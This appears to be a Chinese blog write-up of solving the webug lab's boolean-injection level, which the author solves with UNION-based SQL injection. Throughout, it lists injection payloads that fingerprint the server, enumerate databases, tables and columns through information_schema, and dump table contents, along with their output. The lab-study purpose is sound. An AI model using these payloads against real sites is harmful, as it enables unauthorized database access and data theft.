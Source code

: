 ```yaml
---
title: webug之布尔注入
toc: true
description: >-
    本来想写关于 sqli-lib less 5 的笔记的，结果总感觉它不是那种很经典的布尔盲注的例子，还是 webug 这个比较恰当、正常。ps:然并软,
    webug 这个布尔注入, 也是虚晃一枪, 有显示位,故我采用的回显注入.
categories:
    - websec
    - sql injection
date: 2019-07-27 10:52:35
tags:
---
```


# **基于布尔的盲注简介**

**Web 的页面的仅仅会返回 True 和 False 两种状态**，对咱们来说，也就是正常和不正常。当然，这个不正常的是怎么不正常，样子就多了。比如：网页中的某处缺少一块元素，某些位置不能正常显示等。

那么布尔盲注就是进行 SQL 注入之后然后根据页面返回的 True 或者是 False （也是就是页面是否显示正常）来得到数据库中的相关信息。

就先介绍这些基础知识，便于我们注入的时候判断是不是布尔

## 检测注入点

### 单引号测试

测试后，我们发现

> 站长下载()是中国最大的站长类资源下载网站，提供最新最全的源码和站长类工具下载，专设源码报导栏目提供权威的源码评测和教程，推荐国内外优秀源码。

相较于 id = 1 正常显示页面，我们加单引号之后，这一段文字没有了，即：页面显示不正常了。

### 注释测试

?id=1' --+ 页面显示正常

由此，我们得出两点：

1. 没有报错提示，只有显示正常与不正常。基于我们对布尔盲注的认识，我们认为这可能是布尔盲注。
2. 这里我们猜测是字符型的 id = '1'

如果不确定的话，我们还可以进行一下测试

1. 用双引号测试，又发现正常显示。（我们也不必着急去猜测 sql 查询语句，因为没有报错，没办法猜。）
2. id = -1，显示不正常

在我们仍不确定是否是布尔盲注的时候，我们接着按照回显注入的流程进行

## order by 猜字段

首先在猜字段的过程中，页面没有任何报错，只有正常与正常显示。order by 2 时，显示正常，order by 3 时，显示不正常。故字段数为 2

## 确定显示位

?id=1' union select 1,2 --+

我们突然发现第二个字段是个显示位，就上面说的时不时消失的那段话的尾部。

嗯，本来想讲布尔盲注的，看来 webug 的这个题设置的也不好 emm。

其实前期，页面不报错，只有正常与不正常显示，是布尔盲注的一大特定。但这也不经意交给我们一个道理：不要完全相信经验（那些特征等），只有根据实际情况，才能做出最佳的判断，回显注入可比布尔盲注轻松多了。

## 爆版本等信息

```php
?id=1' union select 1,concat_ws(', ',version(),database(),user(),@@datadir,@@version_compile_os) --+
```

或

```php
?id=-1' union select 1,concat_ws(', ',version(),database(),user(),@@datadir,@@version_compile_os) --+
```

从这里我们知道 id = 1 查询的就是那段话。
回显：5.5.53, webug, root@localhost, C:\phpStudy\MySQL\data\, Win32

## 爆库名

```php
?id=-1' union select 1,group_concat(schema_name) from information_schema.schemata --+
```

回显：information_schema,challenges,mysql,performance_schema,security,webug,webug_sys,webug_width_byte

## 爆 webug 库中的表

```php
?id=-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='webug' --+
```

回显：data_crud,env_list,env_path,flag,sqlinjection,user,user_test

## 爆 flag 表的字段名

```php
?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' --+
```

回显：id,flag

虽然之前回显注入那一关, 就是用的这个库里面的 flag, 我还是义无反顾地爆了这个表的内容 emm(不知道当时怎么想的...)

### 爆表中的数据

```php
?id=-1' union select 1,group_concat(concat_ws(', ',id,flag) SEPARATOR ';') from flag --+
```

回显：1, dfafdasfafdsadfa

提交 flag 果然不对.

## 爆 sqlinjection 表的字段名

```php
?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='sqlinjection' --+
```

回显：id,content,id,content
奇怪，列名还能重复？？？经过查证, webug 里面有两个 sqlinjection 表，另一个表在 webug_width_byte 库中，该表也有 id，content 两个字段，
**经验教训：爆字段名时，将库名和表名都要指定，避免出现不同库出现相同表的原因。**

```php
?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='webug' and table_name='sqlinjection' --+
```

### 爆表中的数据

```php
?id=-1' union select 1,group_concat(concat_ws(', ',id,content) separator '; ') from sqlinjection --+
```

内容:
1, 站长下载....优秀源码。;
2, hello

又没有 flag

## 爆 data_crud 表的字段名

```php
?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='data_crud' --+
```

回显:
id,name,age,email,gender

看着不像 flag

## 换表: env_list

```php
?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='env_list' --+
```

回显: id,envName,envDesc,envIntegration,delFlag,envFlag,level,type

### 爆 delFlag 和 envFlag 字段内容

```php
?id=-1' union select 1,group_concat(concat_ws(', ',delFlag,envFlag) separator '; ') from env_list --+
```

回显了一堆呀:
0, dfafdasfafdsadfa; 0, fdsafsdfa; 0, gfdgdfsdg; 0, dsfasdczxcg; 0, safsafasdfasdf; 0, dfsadfsadfas; 0, ddfasdfsafsadfsd; 0, ; 0, fsdafasdfas; 0, asdfsdfadfsdrew; 0, htryyujryfhyjtrjn; 0, uoijkhhnloh; 0, poipjklkjppoi; 0; 0, sadfvgsadfhe; 0, poiplmkounipoj; 0, sadfsadfsdadf; 0, sdfasdfgfddst; 0, vnghuytiuygui; 0, sadfhbvjyyiyukuyt; 0, vbchjgwestruyi; 0; 0; 0; 0; 0; 0; 0; 0; 0

看来 delFlag 好多是 0, 还是不看它了.

简化一下:

```php
?id=-1' union select 1,group_concat(envFlag separator '; ') from env_list group by delFlag --+
```

回显:

dfafdasfafdsadfa; sadfsadfsdadf; sdfasdfgfddst; vnghuytiuygui; sadfhbvjyyiyukuyt; vbchjgwestruyi; poiplmkounipoj; sadfvgsadfhe; fdsafsdfa; gfdgdfsdg; dsfasdczxcg; safsafasdfasdf; dfsadfsadfas; ddfasdfsafsadfsd; ; fsdafasdfas; asdfsdfadfsdrew; htryyujryfhyjtrjn; uoijkhhnloh; poipjklkjppoi

这么一堆 flag 难道是 webug 所有的 flag? 瞬间开心,一个个试,试出 fdsafsdfa 为布尔注入这一关的 flag.

至此, 不小心发现的使用回显注入的布尔注入题目完结.

布尔注入我还是再找一个别的注入点写吧.

# 总结回顾

1. 在进行注入点测试之前，先大致看一下页面，这样如果是布尔盲注，可以在测试时，快速发现,当然,如果前期有些特征,不要着急用布尔盲注,可以先试试回显注入。
2. **爆字段名时，将库名和表名都要指定，避免出现不同库出现相同表的原因。**
